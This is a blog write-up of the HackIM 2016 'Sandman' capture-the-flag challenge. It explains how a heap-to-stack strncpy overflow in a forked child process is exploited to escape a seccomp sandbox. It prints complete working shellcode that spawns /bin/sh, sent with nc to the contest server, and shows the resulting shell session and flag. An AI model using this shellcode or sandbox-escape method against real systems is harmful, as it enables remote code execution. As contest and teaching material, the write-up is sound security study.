 ```yaml
---
layout: post
title: HackIM 2016 CTF - Sandman Exploitation 200
category: [Exploitation]
tags: [Exploitation, nullcon-hackim]
comments: true
---
```


**Points:** 200
**Solves:** 
**Category:** Exploitation
**Description:**

> [Sandman]({{site.url}}/assets/sandman)

# Write-Up

{% highlight text %}
[*] '/Users/user/ctfs/HackIM2016/pwn200/sandman'   
   Arch:          amd64-64-little   
   RELRO:         Partial RELRO   
   Stack Canary:  No canary found   
   NX:            NX disabled   
   PIE:           No PIE   
{% endhighlight %}

So a 64bit binary with all protections disabled.

## Execution flow

1. Create a pipe(pipeFD)
2. fork()
	* What follows next is the execution flow of the parent process, the child takes a different route
	1. read(stdin, bufSize, 4)
	2. mmap(0, bufSize, 0x7, 0x22, 0xffffffff, 0x0) - the size we pass to the previous read() is the size mmap allocates with read/write/execute permissions
	3. read(stdin, newMemoryMapFromMmap, bufSize)
	4. Sandbox the parent with seccomp, the only allowed syscalls are read/write/exit
	5. Jump to the new mmap page and execute our input (I call this the parent shellcode)
* Child execution flow
	1. call 0x0400e2b with argument the created pipe file descriptor  
	2. read(stdin, localBuf, 1)  
	3. call 0x400ddf(localBuf, pipeFD)   
	>> Here in 0x400ddf it compares if the localBuf data we passed is == 0x0e or ( > 1 || =< 0x05 ).   
	>> To reach the vulnerable code we need this to be == 0x0e   
	4. call func 0x400cca  
		4.1. In this function we have a call to read(stdin, localBuf, 4)  
		4.2. calloc(localBuf) - Ok, we control the size of allocated heap buffer  
		4.3. read(pipeFD, callocBufferOnHeap, localBuf)  
		>> So, it looks like control the amount of data to be placed on the heap. The input file descriptor is the previously created pipe().  
	5. Call vulnerable function 0x0400bac(callocBufferOnHeap)  
	6. strncmp(callocBufferOnHeap, "http://", 7) - We need this compare to pass in order to continue  
	7. dataSize = strlen(callocBufferOnHeap)  
		7.1. Here at 0x0400c79 is a jump that I can't take. It takes the jump only if (callocBufferOnHeap+7) > EndOf_callocBufferOnHeap.  
		7.2. size = strlen(callocBufferOnHeap+7)  
		7.3. vulnerable strncpy(localBuffer, callocBufferOnHea+7, size)  

## Gameplan + few failed attempts

To exploit this the plan of action is to build a shellcode on the parent process that writes to the pipe file descriptor. The child process reads from the pipe enough data so it passes all verification checks and overwrites the saved RET in 0x0400bac.

As we control the size to be copied to the local buffer in 0x0400bac, we can just overwrite the RET. The local buffer's size is 0x230 bytes with NX disabled it should be easy right ? Yes but No, even after controlling the RET, first we can only pass a single RET address since strncpy is going to terminate on null bytes. Even after we can jump to any memory address with ASLR on we don't know which address to jump to. I can also tell you that a pointer to the Heap Buffer is in RDI but there are no gadgets to do jump/call RDI.

Another trick that I tried is to use a RET-chain by using the 8 byte address of the vsyscall table we can chain as many RETs as we want. After chaining 9 RET we reach a pointer to our BufferOnHeap+7, we just place shellcode there and viola. However, this method failed for me with SEGFAULT as soon as I tried executing the RET in the vsyscall table. A gadget that does 8 pops + ret would of worked for this method as well, but the only gadget with the closest to this stack pivot is a gadget at 0x401166, that does add rsp, 8, pop x 6, ret, with this we fall short a single pop :(, so we fail again.

And yet another fail for me was to use a gadget that does just 4 pops (or 3 I dont remember at this point) + ret since there we can find a pointer to the beginning of the BufferOnHeap. However, remember to reach the vulnerable code our buffer on the Heap needs to start with "http://" ? All is good, if "http://" converts to some garbage instructions that can easily execute and we can continue with shellcode after that. Yes but no, the 0x2f is a bad opcode, so this is not an option either :/.

# The real exploit

The way I exploited this is to leak the address of the local buffer of 0x0400bac from the parent to the child. Use that address as RET as classic RET-2-buffer exploit and execute any shellcode I want on the child where there is no sandbox. This works because fork() duplicates the entire process's memory space so the parent and child will have the same addresses. After a few calculations I decide to use RSP-0x100 from the parent as the RET address. Here is a table of how the shellcode from the parent to the child needs to look like:

{% highlight text %}
|1byte| 4 bytes Size     | data to pass to the child                       | ret Addr      |
+-----+------------------+-------------------------------------------------+---------------+
 0x0e |\x??\x00\x00\x00  | "http://" + 0x230 bytes of nopsled + shellcode  | RSP - 0x100   |
+-----+------------------+-------------------------------------------------+---------------+
{% endhighlight %}

This payload needs to be build from the parent and written to the pipe. So basically a shellcode writting shellcode :) (Sounds like the matrix "machines building machines", right? :P ).

To do that here is my assembly shellcode that I pass to the parent.

{% highlight text %}
4 byte size of payld| shellcode building sc    | sc write builded sc to pipe | Infinite loop |
--------------------+--------------------------+-----------------------------+---------------+
\xb8\x00\x00\x00    | see screenshot of the sc | see screenshot of sc        | \xeb\xfe      |
--------------------+--------------------------+-----------------------------+---------------+
{% endhighlight %}

Yes, I added an infinite loop so the parent doesnt exit... I probably could of duplicated the socked fd and use it in the child for stdin/stdout but I didn't think too much about this since adding just 2 bytes made everything work for me.

![parent shellcode]({{site.url}}/assets/Screen Shot 2016-01-31 at 3.08.44 PM.png)

## Shellcode in action.

<script type="text/javascript" src="https://asciinema.org/a/35227.js" id="asciicast-35227" data-speed="2" async></script>

{%highlight bash %}
➜  pwn200  (python -c 'print("\xb8\x00\x00\x00\x48\x8d\x9a\x00\x10\x00\x00\x48\xbe\x0e\x60\x02\x00\x00\x68\x74\x74\x48\x89\x33\x48\xbe\x70\x3a\x2f\x2f\x90\x90\x90\x90\x48\x89\x73\x08\x48\x31\xc9\x48\xbe\x90\x90\x90\x90\x90\x90\x90\x90\x48\x83\xc3\x0c\x48\x89\x34\xCB\x48\xff\xc1\x48\x83\xf9\x41\x75\xf3\x48\xbe\x90\x48\x83\xc4\x1e\x31\xc0\x48\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xff\x48\xf7\xdb\x53\x54\x5f\x99\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x48\x89\x34\xCB\x48\xff\xc1\x48\x8d\xb4\x24\x00\xff\xff\xff\x48\x89\x34\xCB\x48\xff\xc1\x48\x31\xc0\x8b\x45\xd0\x48\x89\xc7\x48\xc7\xc0\x01\x00\x00\x00\x48\x83\xeb\x0c\x48\x89\xde\x48\xc7\xc2\x00\x10\x00\x00\x48\xff\xc7\x0f\x05\xeb\xfe")';cat) | nc -vvv 52.72.171.221 9982

Connection to 52.72.171.221 9982 port [tcp/*] succeeded!
sh: cannot set terminal process group (14781): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3$ sh-4.3$ echo *
bin dev flag-ooMeeT3iEephei1dAHighae7.txt lib lib64 sandman server.sh usr

sh-4.3$ cat flag-ooMeeT3iEephei1dAHighae7.txt
flag-{br3k1ng-b4d-s4ndm4n}
sh-4.3$

{% endhighlight %}

* Thank you for reading/watching ;)
